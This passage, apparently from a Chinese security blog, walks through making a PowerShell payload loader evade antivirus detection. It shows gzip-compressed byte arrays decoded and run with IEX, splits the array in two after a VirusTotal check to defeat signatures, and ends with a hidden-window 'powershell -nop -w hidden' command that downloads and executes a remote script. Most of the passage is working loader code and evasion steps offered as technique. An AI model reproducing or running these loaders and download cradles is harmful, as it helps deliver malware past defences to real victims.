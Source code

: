 ![](https://image.3001.net/images/20200911/1599794882.png!small)

使用上面方法，直接把FromBase64String改成FromBase65String。

```text
[Byte[]]$var_code =  [Byte[]](31,139,8,0,0,0,0,0,0,0,173,87,109,111,162,218,22,254,92,127,5,31,154,168,169,181,40,214,234,220,76,114,20,65,80,160,10,190,247,52,205,6,182,136,34,32,108,4,60,51,255,253,44,80,123,58,119,58,247,78,114,175,9,113,179,89,175,207,126,214,98,161,97,114,175,145,192,54,136,236,153,152,186,159,225,32,180,61,151,170,23,10,183,61,79,36,212,87,234,143,98,97,29,185,6,201,182,179,197,155,133,201,155,31,120,198,27,50,205,0,135,33,245,87,225,102,132,2,180,167,74,183,71,20,188,237,61,51,114,112,133,202,111,50,65,108,70,1,46,223,220,20,110,242,173,200,13,209,26,191,185,136,216,71,252,182,199,100,227,153,33,56,42,189,116,124,191,231,237,145,237,190,126,249,194,70,65,128,93,114,190,175,246,49,233,132,33,222,235,142,141,195,82,153,250,70,205,55,56,192,247,207,250,22,27,132,250,139,186,125,171,246,29,79,71,206,69,44,101,145,177,129,132,58,174,153,61,147,60,3,101,25,84,53,223,177,73,169,248,231,159,197,242,203,125,237,181,202,29,34,228,132,165,162,150,134,4,239,171,166,227)

$s=New-Object IO.MemoryStream(,$var_code);IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

然后再丢到VT上面查看

![](https://image.3001.net/images/20200911/1599794979.png!small)

不能够啊，还要继续改，首先将byte数组分成两个段。

```text
[Byte[]]$var_c1 =  [Byte[]](31,139,8,0,0,0,0,0,0,0,173,87,109,111,162,218,22,254,92,127,5,31,154,168,169,181,40,214,234,220,76,114,20,65,80,160,10,190,247,52,205,6,182,136,34,32,108,4,60,51,255,253,44,80,123,58,119,58,247,78,114,175,9,113,179,89,175,207,126,214,98,161,97,114,175,145,192,54,136,236,153,152,186,159,225,32,180,61,151,170,23,10,183,61,79,36,212,87,234,143,98,97,29,185,6,201,182,179,197,155,133,201,155,31,120,198,27,50,205,0,135,33,245,87,225,102,132,2,180,167,74,183,71,20,188,237,61,51,114,112,133,202,111,50,187,110,247,28,92,199,128,115,15,33,42,160,68,249)
[Byte[]]$var_c2 =  [Byte[]](199,96,206,103,88,42,138,174,140,247,128,223,249,30,104,122,187,134,50,195,87,233,75,105,165,87,239,217,125,198,101,214,65,97,88,161,70,17,212,185,81,161,52,140,28,108,86,168,142,27,218,151,71,157,136,120,249,178,248,79,184,114,228,16,219,64,33,185,154,123,45,127,2,233,197,53,235,185,80,49,145,1,189,155,171,100,3,217,135,72,62,122,114,114,79,229,11,250,65,228,238,241,255,241,0,126,112,250,223,161,205,192,203,103,186,119,232,242,128,62,199,171,40,254,81,40,136,107,234,195,126,104,159,224,139,5,31,168,86,206,189,144,160,128,220,111,61,29,62,111,242,247,117,233,22,149,41,145,91,80,183,136,250,78,221,67,122,157,144,169,195,55,78,96,69,217,203,155,58,127,178,125,163,98,100,159,21,191,81,42,54,48,140,220,247,3,79,7,150,98,152,193,50,211,185,145,76,24,246,254,6,195,245,1,82,3,14,0,0)
$var_code=$var_c1+$var_c2

$s=New-Object IO.MemoryStream(,$var_code);IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

老规矩使用命令看看是否影响上线

```text
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://0.0.0.0:4545/text.txt'))"
```
